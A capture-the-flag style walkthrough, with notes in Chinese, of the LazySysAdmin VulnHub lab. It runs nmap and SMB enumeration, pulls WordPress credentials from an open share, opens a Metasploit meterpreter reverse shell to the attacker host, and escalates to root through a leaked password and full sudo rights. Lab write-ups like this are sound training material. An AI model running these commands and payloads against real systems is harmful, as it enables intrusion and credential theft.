

# Recon

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lazysysadmin]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n -Pn 192.168.2.149 -oN recon
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-18 01:07 EST
Nmap scan report for 192.168.2.149
Host is up (0.00089s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Backnode
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-generator: Silex v2.2.7
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.2.144
|_  error: Closing link: (nmap@192.168.2.144) [Client exited]
MAC Address: 00:0C:29:86:59:CD (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2025-11-19T00:08:09+10:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h40m00s, deviation: 5h46m24s, median: 8h00m00s
| smb2-time: 
|   date: 2025-11-18T14:08:09
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.89 ms 192.168.2.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.83 seconds
```

# smb

smbmap扫一下发现share$共享 可读

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lazysysadmin]
└─$ smbmap -H 192.168.2.149                                                    

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                         
[+] IP: 192.168.2.149:445       Name: 192.168.2.149             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        share$                                                  READ ONLY       Sumshare
        IPC$                                                    NO ACCESS       IPC Service (Web server)
[*] Closed 1 connections
```

连接发现应该是web根目录

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lazysysadmin]
└─$ smbclient //192.168.2.149/share$
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Aug 15 07:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017
```

recurse on开启递归 prompt off关闭下载提示 然后mget *递归下载所有文件

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lazysysadmin]
└─$ smbclient //192.168.2.149/share$
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \deets.txt of size 139 as deets.txt (135.7 KiloBytes/sec) (average 135.7 KiloBytes/sec)
getting file \robots.txt of size 92 as robots.txt (89.8 KiloBytes/sec) (average 112.8 KiloBytes/sec)
getting file \todolist.txt of size 79 as todolist.txt (790000.0 KiloBytes/sec) (average 151.4 KiloBytes/sec)
```

# shell as www-data by wordpress

目录扫描一下，存在wordpress、phpmyadmin和robots.txt，还有info.php为phpinfo.php

扫描结果整体和smbshare差不多

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/lazysysadmin]
└─$ gobuster dir -u http://192.168.2.149 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x $ext
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.149
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              asp,cgi,html,bak,css,htm,zip,txt,1,py,dist,xml,php,aspx,pl,js,tar.gz,tgt,pyc,backup,jsp,tar,tar.bz2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 36072]
/info.php             (Status: 200) [Size: 77163]
/wordpress            (Status: 301) [Size: 317] [--> http://192.168.2.149/wordpress/]
/test                 (Status: 301) [Size: 312] [--> http://192.168.2.149/test/]
/wp                   (Status: 301) [Size: 310] [--> http://192.168.2.149/wp/]
/apache               (Status: 301) [Size: 314] [--> http://192.168.2.149/apache/]
/old                  (Status: 301) [Size: 311] [--> http://192.168.2.149/old/]
/javascript           (Status: 301) [Size: 318] [--> http://192.168.2.149/javascript/]
/robots.txt           (Status: 200) [Size: 92]
/phpmyadmin           (Status: 301) [Size: 318] [--> http://192.168.2.149/phpmyadmin/]
```

从递归下载的文件中读取wordpress/wp-config.php，获取mysql账号密码

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```

使用这对凭据登录phpmyadmin无法读取任何数据，应该是phpmyadmin安装的问题



直接登录wordpress是成功的 那么直接getshell

```shell
msf exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   PASSWORD   TogieMYSQL12345^^  yes       The WordPress password to authenticate with
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, sapni, http,
                                           socks4
   RHOSTS     192.168.2.149      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                 yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  wordpress          yes       The base path to the wordpress application
   USERNAME   admin              yes       The WordPress username to authenticate with
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.144    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


View the full module info with the info, or info -d command.

msf exploit(unix/webapp/wp_admin_shell_upload) > exploit 
[*] Started reverse TCP handler on 192.168.2.144:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/jIInIRglkm/GuUdmtQiXL.php...
[*] Sending stage (41224 bytes) to 192.168.2.149
[+] Deleted GuUdmtQiXL.php
[+] Deleted jIInIRglkm.php
[+] Deleted ../jIInIRglkm
[*] Meterpreter session 1 opened (192.168.2.144:4444 -> 192.168.2.149:36510) at 2025-11-18 01:50:57 -0500

meterpreter > 
```

# shell as root by sudo

/var/www/html/deets.txt中泄露了一个弱口令 经过尝试为togie系统用户所使用

su切换用户后sudo -l发现允许执行所有命令 提权成功

```shell
(remote) www-data@LazySysAdmin:/var/www/html$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
(remote) www-data@LazySysAdmin:/var/www/html$ su togie
Password: 
togie@LazySysAdmin:/var/www/html$ sudo -l
[sudo] password for togie: 
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:/var/www/html$ sudo su
root@LazySysAdmin:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

